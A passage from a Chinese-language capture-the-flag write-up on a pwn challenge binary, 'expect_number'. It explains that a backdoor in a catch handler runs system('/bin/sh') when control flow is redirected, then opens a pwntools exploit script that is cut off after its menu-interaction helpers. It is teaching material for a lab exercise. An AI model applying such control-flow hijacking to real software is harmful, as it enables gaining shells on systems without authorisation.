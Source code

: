 又可以发现，程序某处的 catch 存在后门函数，直接让 rip 跳到 2516 即可成功 catch 到 `std::runtime_error` 并且 执行 `system("/bin/sh")`

![qwb](/image/qwbs8/8.png)

通过以上得出最终 exp

### [](#header-3)EXP

```py
#by leeya_bug

from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./expect_number')

def debug():
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid}' '''])
	p.interactive()

#------------- 基本配置 -------------

def continue_game(number: int) -> None:
	p.sendlineafter(b'waiting for your choice', b'1')
	p.sendlineafter(b'2 or 1 or 0', str(number).encode())

def show() -> bytes:
	p.sendlineafter(b'waiting for your choice', b'2')
	data = p.recvuntil(b'|--------').split(b'History is : ')[1].split(b'|--------')[0].strip(b'\t\n')
	return data

def exit() -> None:
	p.sendlineafter(b'waiting for your choice', b'4')

```